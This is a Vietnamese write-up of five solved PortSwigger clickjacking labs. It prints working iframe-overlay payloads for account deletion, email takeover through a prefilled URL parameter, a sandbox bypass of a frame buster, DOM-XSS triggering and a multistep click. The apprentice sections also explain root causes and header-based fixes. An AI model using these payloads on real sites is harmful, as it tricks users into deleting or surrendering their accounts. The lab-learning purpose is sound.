# CLICKJACKING LABS

**Category:** Clickjacking

**Difficulty:** Apprentice / Practitioner

**Link:** [PortSwigger Lab](https://portswigger.net/web-security/all-labs#clickjacking)

**Status:** ✅ Solved

**Date:** 2026-06-22

---

# LEVEL: APPRENTICE
## 1, Lab: Basic clickjacking with CSRF token protection

###  Mô tả

Trang web có chức năng "Delete account" được bảo vệ bởi CSRF token — tức là đã chống được CSRF attack thông thường. Tuy nhiên, trang web không có biện pháp chống Clickjacking (như X-Frame-Options hoặc CSP frame-ancestors), nên có thể bị nhúng vào iframe trên 1 trang khác và lừa victim click vào nút xóa account mà không hề biết.

###  Mục tiêu

Để hoàn thành bài tập này, hãy tạo một đoạn mã HTML bao quanh trang tài khoản và đánh lừa người dùng xóa tài khoản của họ. Bài tập được hoàn thành khi tài khoản bị xóa.

### 🛠️ Exploitation Steps

login vào với credential _wiener:peter_ 



Nhấp vào exploit server, copy-paste payload này vào và chỉnh sửa các thông số $. 

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
``` 



Đây là các thông số có thể tham khảo.



Mục tiêu ở đây là chỉnh sửa sao cho khi ta di chuột vào CLICK ME thì hover hiện ra, và người dùng ấn vào mà không nhận ra là mình đã tự xóa account của mình.





### Root Cause
Lỗ hổng tồn tại vì server chỉ bảo vệ ở tầng request-validation (CSRF token) mà quên bảo vệ ở tầng UI/rendering (chống bị nhúng iframe).

> CSRF token chỉ giải quyết được vấn đề "request có hợp lệ và có chủ đích không" — nhưng nó không ngăn được việc trang web bị hiển thị bên trong iframe của 1 site khác. Vì victim tự tay click vào nút Delete account thật (dù không biết), CSRF token vẫn được gửi đi hợp lệ cùng request — do đó cơ chế CSRF protection hoàn toàn bị bypass.

### 🛡️ Cách Fix / Mitigation

- Thêm header X-Frame-Options: DENY hoặc SAMEORIGIN — báo browser từ chối render trang trong iframe nếu request đến từ domain khác. Đây là cách fix nhanh và đơn giản nhất, hỗ trợ rộng rãi trên các browser hiện đại.

- Dùng Content-Security-Policy với frame-ancestors — cách hiện đại hơn X-Frame-Options, cho phép chỉ định chính xác domain nào được phép nhúng iframe

- Yêu cầu xác nhận lại (re-authentication) cho hành động nhạy cảm — ví dụ nhập lại password trước khi xóa account. Dù không chống được Clickjacking trực tiếp, nó tạo thêm 1 lớp cản, vì attacker khó lừa victim nhập lại password vào ô ẩn so với chỉ click 1 nút.

## 2, Lab: Clickjacking with form input data prefilled from a URL parameter

### Mô tả

Trang web cho phép **prefill giá trị form bằng URL parameter** — cụ thể, form "Update email" tự động điền sẵn giá trị email dựa vào query string `?email=...` trên URL. Kết hợp với việc trang không chống Clickjacking, attacker có thể nhúng iframe với URL đã chứa sẵn email của attacker, rồi lừa victim click "Update email" — khiến email account của victim bị đổi sang email do attacker kiểm soát mà victim không hề gõ gì cả.

### Mục tiêu

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

### 🛠️ Exploitation Steps

Login vào với credential _wiener:peter_



Vào exploit server, copy-paste payload sau và chỉnh sửa các thông số `$`:

```
<style>
    iframe {
        position:relative;
        width:500px;
        height:700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0af200c9046bbeae80503ae20006000a.web-security-academy.net/my-account?email=hacker123@attacker-website.com"></iframe>
```

Điểm khác biệt so với lab 1: thay vì chỉ trỏ iframe tới /my-account, lần này URL có kèm sẵn ?email=hacker@attacker-website.com — vì trang đích tự động đọc parameter này để điền sẵn vào ô email trong form, victim chỉ cần click "Update email" là submit luôn giá trị đó.

Căn chỉnh top, left, width, height, opacity sao cho nút "Update email" thật nằm đè khớp với "Test me" hiển thị.

Sau khi align đúng, đổi "Test me" thành "Click me", lưu lại, và đổi email trong payload thành email khác (không phải email mình đang test) trước khi deliver cho victim — vì hệ thống không cho phép 2 account dùng cùng 1 email.



Deliver exploit cho victim → email bị đổi → lab solved.





### Root Cause

1, Cũng như lab 1, trang không có chống Clickjacking (thiếu X-Frame-Options/CSP frame-ancestors) → cho phép nhúng iframe tùy ý.

2, Trang tin tưởng giá trị từ URL parameter để tự động điền vào form nhạy cảm (?email=...) mà không yêu cầu xác nhận thêm. Đây là dạng lỗi tương tự "Excessive trust in client-side input" — app cho phép giá trị form được set sẵn từ bên ngoài, kết hợp với Clickjacking thì attacker hoàn toàn kiểm soát được cả giá trị submit chứ không chỉ riêng hành động click.

### 🛡️ Cách Fix / Mitigation

- Thêm header X-Frame-Options: DENY hoặc SAMEORIGIN, hoặc CSP frame-ancestors 'self' — chặn nhúng iframe từ domain khác (giống lab 1).

- Không nên tự động điền giá trị nhạy cảm (email, password, địa chỉ...) vào form chỉ dựa vào URL parameter — nếu cần prefill, nên giới hạn ở những giá trị không nhạy cảm, hoặc yêu cầu xác nhận lại trước khi submit.

- Yêu cầu xác nhận qua email/OTP khi đổi thông tin nhạy cảm như địa chỉ email — dù bị submit form thành công, vẫn cần victim chủ động confirm qua 1 kênh riêng (email cũ) mới áp dụng thay đổi thật.

## 3, Clickjacking with a frame buster script

## 3 Lab: Clickjacking with a frame buster script

### Mô tả

Trang web được bảo vệ bởi **frame buster** — một đoạn JavaScript tự viết để phát hiện khi trang bị nhúng trong iframe và tự động "thoát ra" bằng cách redirect cửa sổ ngoài cùng. Tuy nhiên, cơ chế này có thể bị vô hiệu hóa bằng thuộc tính `sandbox` của iframe, cho phép attacker vẫn thực hiện được Clickjacking để đổi email của victim.

### Mục tiêu

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

### 🛠️ Exploitation Steps

Login vào với credential _wiener:peter_



Vào exploit server, copy-paste payload sau:

```
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:485px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a0b002703ab7437800acb3a00f900d1.web-security-academy.net/my-account?email=hacker321@attacker-website.com"></iframe>
```

Điểm khác biệt quan trọng so với lab 1 và 2: thẻ iframe có thêm thuộc tính sandbox="allow-forms".

sandbox mặc định chặn toàn bộ quyền của trang bên trong iframe (chạy JS, mở popup, submit form...). Khi chỉ định allow-forms, browser chỉ mở lại quyền submit form, còn JavaScript vẫn bị chặn hoàn toàn.

Vì frame buster của victim.com là 1 đoạn JS chạy để detect và thoát khỏi iframe, khi JS bị sandbox chặn → frame buster không thể chạy → trang vẫn nằm yên trong iframe như bình thường. Đồng thời allow-forms vẫn giữ lại đúng chức năng cần (submit form Update email) để cuộc tấn công vẫn thực hiện được.





### Root Cause

Lỗ hổng tồn tại vì cơ chế chống Clickjacking được implement hoàn toàn dựa vào JavaScript phía client (frame buster) thay vì dùng HTTP header phía server (X-Frame-Options hoặc CSP frame-ancestors).

Bất kỳ cơ chế bảo vệ nào chạy bằng JS trong chính trang bị nhúng đều có thể bị tắt hoặc can thiệp bởi attacker — vì attacker chính là người viết ra iframe chứa trang đó, và có toàn quyền set thuộc tính như sandbox để kiểm soát môi trường chạy của trang bên trong.

> Đây là lý do tại sao "client-side defense" luôn yếu hơn "server-side defense" — phòng thủ phải nằm ở nơi mà attacker không kiểm soát được.

### 🛡️ Cách Fix / Mitigation

- Dùng header X-Frame-Options: DENY hoặc SAMEORIGIN — đây là cơ chế phía server, browser sẽ từ chối render iframe trước khi trang con kịp load, nên không có cơ hội để attacker can thiệp bằng sandbox hay bất kỳ thuộc tính iframe nào.

- Dùng CSP frame-ancestors — tương tự, hoạt động ở tầng response header, độc lập hoàn toàn với JS của attacker.

- Không nên dựa vào frame buster (JS-based) làm cơ chế phòng thủ chính — chỉ nên xem là lớp bảo vệ phụ, vì luôn có cách bypass (qua sandbox, disable JS, hay nhiều kỹ thuật khác).


# PRACTITIONER

# 1, Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

vào trong phần exploit và đưa payload vào phần body. 
Đây là payload của tôi :

```
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top:615px;
		left:80px;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="https://0a8a008c03c984b980b3035700b40085.web-security-academy.net/feedback?name=&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```




# 2, Multistep clickjacking



my payload
```
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:510px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:300px;
		left:210px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0aae00fc039e453b826124d800250029.web-security-academy.net/my-account"></iframe>
```







